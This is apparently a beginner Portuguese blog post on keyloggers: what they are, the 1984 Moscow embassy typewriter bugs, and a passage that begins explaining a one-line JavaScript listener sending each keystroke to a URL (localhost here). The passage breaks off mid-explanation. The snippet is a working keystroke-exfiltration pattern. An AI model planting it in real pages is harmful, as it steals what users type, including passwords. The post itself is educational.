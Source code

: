 ```yaml
---
layout: post
title: Keyloggers
description: "O que são, para que servem, e como fazer um?"
tags: [keylogger, spyware, web, beginner]
author: mavellar
published: true
image:
  background: triangular.png
---
```


### O que são, para que servem, e como fazer um?
Uma das ferramentas potencialmente maliciosas mais bem conhecidas na área de computação é o *keylogger*. Um keylogger é um programa (ou dispositivo) que detecta quando alguma tecla é pressionada no teclado e, de uma maneira ou de outra, guarda essa informação — seja para uso futuro pelo próprio usuário ou não.

É importante notar que um keylogger não necessariamente é um spyware, isto é, um programa para espionar no usuário sem consentimento. O nome *keylogger* se refere somente à funcionalidade da ferramenta e não ao seu uso.

Um dos primeiros casos famosos de keylogging ocorreu em 1984, quando a embaixada americana em Moscou descobriu que pelo menos 16 máquinas de escrever possuíam pequenos dispositivos implantados. Esses dispositivos eram capazes de detectar teclas sendo pressionadas e, em seguida, transmitir essa informação por meio de ondas de rádio para agentes soviéticos no lado de fora do prédio. Esse achado resultou no início do GUNMAN Project, um projeto ultrassecreto cujo objetivo era encontrar qualquer vulnerabilidade em equipamentos de telecomunicação da embaixada de Moscou.

Keyloggers físicos como os de Moscou, impossíveis de detectar por software, ainda estão em uso. Porém, eles vão além do escopo deste artigo. Aqui, vamos dar uma olhada somente em keyloggers de software.
## Event-based
O conceito de programar *event-based* é: esperar algo acontecer e, quando acontecer, executar algum código. No caso de um keylogger, nosso "evento" é a tecla sendo pressionada.

Especificamente para Windows, podemos criar uma aplicação no Visual Studio em C# ou Visual Basic que se utiliza da API nativa do Windows para detecção de pressionamento de teclas. Para Linux, podemos utilizar C e / ou Bash. Links para exemplos de ambos estão no final do artigo.

Aqui, entretanto, vamos focar nossos exemplos nas aplicações para web / node, por serem independentes do sistema operacional.
## Usando JavaScript
O código a seguir, em JavaScript, envia teclas pressionadas em uma página para uma URL arbitrária — nesse caso, "http://localhost":

{% highlight js %}
addEventListener("keyup",e=>new Image().src="//localhost?"+e.key)
{% endhighlight %}

Inicialmente, [ele cria um novo 'listener'](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener) de evento, que espera o evento de "[key up](https://developer.mozilla.org/en-US/docs/Web/Events/keyup)", isto é, o evento que é emitido quando o usuário pressiona e depois solta uma tecla. O segundo argumento é a função de *callback*, que contém o código que será executado quando o evento ocorrer.
